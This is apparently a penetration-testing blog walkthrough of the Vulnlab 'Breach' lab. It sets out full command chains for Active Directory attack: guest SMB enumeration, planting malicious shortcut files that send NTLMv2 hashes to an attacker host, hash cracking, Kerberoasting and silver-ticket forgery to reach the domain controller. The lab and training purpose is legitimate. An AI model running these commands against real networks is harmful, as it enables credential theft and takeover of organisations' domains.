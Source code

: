 +++
title = 'Vulnlab_breach'
date = 2024-10-21T10:25:48+02:00
tags = ['pentesting', 'kerberoasting', 'silver ticket']
draft = false
+++

![Proof](/images/vulnlab_breach/banner.png)

# Walkthrough

## 1. Enumeration
Testing Null sessions, and guest sessions reveals a Working guest session.
```bash
nxc smb "$DC_IP" -u 'a' -p '' --shares
```
![Shares](/images/vulnlab_breach/shares.png)
We have access to three shares:
* IPC$
* share
* Users

A guest session also lets us enumerate all users
```bash
nxc smb "$DC_IP" -u 'a' -p '' --rid-brute | tee u
grep SidTypeUser u | cut -d '\' -f2 | cut -d ' ' -f1 | tee users.txt
```

![Users](/images/vulnlab_breach/usernames.png)

### 1a. Placing shortcut files on SMB shares to grab NTLMv2 hashes
Mounting the shares for quick access, by putting the sharenames into 'list.txt':
```
cat list.txt
Admin$
C$
IPC$
NETLOGON
share
SYSVOL
Users
```

```bash
while read SHARE; do mkdir "$SHARE"; mount -t cifs //"$DC_IP"/"$SHARE" "$SHARE" -o username=guest,password=''; done < list.txt
mount -t cifs
```

![mounted](/images/vulnlab_breach/mounted.png)

Listing the share with 
```
tree -a
```
reveals no credentials. However, it does show a lot of `.lnk` files, which reminds us to Google for shortcut files, which leads to a [Post](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/living-off-the-land#shortcut-files-scf-lnk-url) from Hacker recipies.

Shortcut files can be placed in a SMB Share. If anyone uses a file explorer to view the files, we can grab their NTLMv2 Hash.

If there was a host with SMB singing off, this could be relayed for a SMB Session.
Since there is only one target, it's only feasible to use `Responder` and crack the hash.

First generate one malicious file with `ntlm_theft.py` in all the shares we have write access:

```bash
# Create one malicious file
nxc smb "$DC_IP" -u 'guest' -p '' -M slinky -o SERVER="$ATTACKER_IP" NAME="@Q4Bonus"
# Copy that file to all folders
find . -writable -exec cp /root/shares/share/@Q4Bonus.lnk {} \;
```

This put the file in all these shares
```bash
find . -name '@Q4Bonus.lnk'
./Users/Public/@Q4Bonus.lnk
./Users/Public/AccountPictures/@Q4Bonus.lnk
./Users/Public/Documents/@Q4Bonus.lnk
./Users/Public/Downloads/@Q4Bonus.lnk
./Users/Public/Libraries/@Q4Bonus.lnk
./Users/Public/Music/@Q4Bonus.lnk
./Users/Public/Pictures/@Q4Bonus.lnk
./Users/Public/Videos/@Q4Bonus.lnk
./@Q4Bonus.lnk
./share/@Q4Bonus.lnk
./share/finance/@Q4Bonus.lnk
./share/software/@Q4Bonus.lnk
./share/transfer/@Q4Bonus.lnk
```

After starting Responder, immediately some Hashes occur:

```bash
Responder -I tun0
```
![Responder](/images/vulnlab_breach/Responder.png)

## 2. Julia Wong

Cracking the hash with hashcat and the `rockyou.txt` wordlist reveals the password `C*******1`
```bash
hashcat -m 5600 hash.txt /opt/rockyout.txt
```
Julia has more access to shares:
![julia_shares](/images/vulnlab_breach/julia_shares.png)

Which get remounted with the following command.
```bash
while read SHARE; do umount "$SHARE"; mkdir "$SHARE"; mount -t cifs //"$DC_IP"/"$SHARE" "$SHARE" -o username="$USER",password="$PASSWORD"; done < list.txt
```

The user flag can be found in 
```
./share/transfer/julia.wong/local.txt
```

<!-- ### 2a. Bloodhound
Gathering Bloodhound data with `rusthound`:
```bash
rusthound -d "$DOMAIN" -u "$USER"@"$DOMAIN" -p "$PASSWORD" --zip --adcs --old-bloodhound  
```

Reveals no interesting information immediatly... -->


### 2a. Kerberoastable accounts
The following command uses kerberoasting to get hashes from 
Accounts with SPN enabled.
```bash
GetUserSPNs.py -outputfile Kerberoastables.txt -dc-ip "$DC_IP" "$DOMAIN"/"$USER":"$PASSWORD"
```

![getuserspn](/images/vulnlab_breach/getuserspn.png)

The from the command we can read the SPN:
```bash
MSSQLSvc/breachdc.breach.vl:1433
```


Using 
```bash
hashcat -m 13100 Kerberoastables.txt /opt/rockyou.txt
```

This gives the user `svc_mssql` with the password `T******1`

## 3. Svc_mssql -> Silver ticket
Armed with the NTLM-hash of the `svc_mssql` user, it is possible to create a [silver ticket](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver)

This effectively allows an attacker to impersonate any user on the server.

The command is:
1. Get the DOMAIN-SID with 
```bash
lookupsid.py -hashes :"$NT_HASH" "$DOMAIN"/"$USER"@"$DC_HOST" 0
```
2. Forge a silver ticket
```bash
ticketer.py -nthash "$NT_HASH" -domain-sid "$DOMAIN_SID" -domain "$DOMAIN" -spn MSSQLSvc/breachdc.breach.vl:1433 administrator
```
3. Authenticate with silver ticket
```bash
export KRB5CCNAME="$(pwd)/Administrator.ccache"
mssqlclient.py -k "$DC_HOST"."$DOMAIN"  
```
![mssqlclient](/images/vulnlab_breach/mssqlclient.png)

The Root flag can be then accessed via the mssqlclient:
```sql
SELECT * FROM OPENROWSET(BULK N'C:\Users\Administrator\Desktop\root.txt', SINGLE_CLOB) AS Contents
```